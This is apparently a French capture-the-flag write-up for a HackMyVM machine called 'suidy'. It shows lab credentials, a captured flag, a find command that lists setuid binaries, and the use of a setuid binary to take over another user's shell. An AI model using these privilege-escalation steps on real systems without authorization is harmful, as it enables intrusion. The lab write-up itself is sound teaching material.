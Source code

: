 Complétement bloqué, j'ai dû ouvrir la VM pour voir ce que c'était... et le mot à utiliser est `procps`.

Voici une recherche sur le mot `procps` sur le répo SecLists :

`https://github.com/search?q=repo%3Adanielmiessler%2FSecLists%20procps&type=code`

Oooooh ! Aucun résultat. L'auteur a plus d'hallucinations que les premières versions de ChatGPT.

Il fallait donc trouver ces identifiants :

`procps.txt`  `theuser/thepass`

Ils nous permettent d'obtenir le premier flag :

```console
theuser@suidy:~$ cat user.txt 
HMV2353IVI
```

Sans surprises, on trouve un binaire setuid :

```console
theuser@suidy:~$ find / -type f -perm -u+s -ls 2> /dev/null 
   136287     20 -rwsrwsr-x   1 root     theuser     16704 sep 26  2020 /home/suidy/suidyyyyy
     3562     64 -rwsr-xr-x   1 root     root        63568 ene 10  2019 /usr/bin/su
     3890     36 -rwsr-xr-x   1 root     root        34888 ene 10  2019 /usr/bin/umount
     3888     52 -rwsr-xr-x   1 root     root        51280 ene 10  2019 /usr/bin/mount
       62     84 -rwsr-xr-x   1 root     root        84016 jul 27  2018 /usr/bin/gpasswd
       59     56 -rwsr-xr-x   1 root     root        54096 jul 27  2018 /usr/bin/chfn
     3415     44 -rwsr-xr-x   1 root     root        44440 jul 27  2018 /usr/bin/newgrp
       63     64 -rwsr-xr-x   1 root     root        63736 jul 27  2018 /usr/bin/passwd
       60     44 -rwsr-xr-x   1 root     root        44528 jul 27  2018 /usr/bin/chsh
    12498     52 -rwsr-xr--   1 root     messagebus    51184 jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    15846    428 -rwsr-xr-x   1 root     root         436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
   137189     12 -rwsr-xr-x   1 root     root          10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

Ce dernier donne directement un shell pour l'utilisateur `suidy` :

```console
theuser@suidy:~$ /home/suidy/suidyyyyy
suidy@suidy:~$ id
uid=1001(suidy) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
suidy@suidy:~$ cd /home/suidy
suidy@suidy:/home/suidy$ ls -al
total 52
drwxr-xr-x 3 suidy suidy    4096 sep 27  2020 .
drwxr-xr-x 4 root  root     4096 sep 26  2020 ..
-rw------- 1 suidy suidy      12 sep 27  2020 .bash_history
-rw-r--r-- 1 suidy suidy     220 sep 26  2020 .bash_logout
-rw-r--r-- 1 suidy suidy    3526 sep 26  2020 .bashrc
drwxr-xr-x 3 suidy suidy    4096 sep 26  2020 .local
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rw-r--r-- 1 suidy suidy     807 sep 26  2020 .profile
-rwsrwsr-x 1 root  theuser 16704 sep 26  2020 suidyyyyy
suidy@suidy:/home/suidy$ cat note.txt 
I love SUID files!
The best file is suidyyyyy because users can use it to feel as I feel.
root know it and run an script to be sure that my file has SUID. 
If you are "theuser" I hate you!

-suidy
```
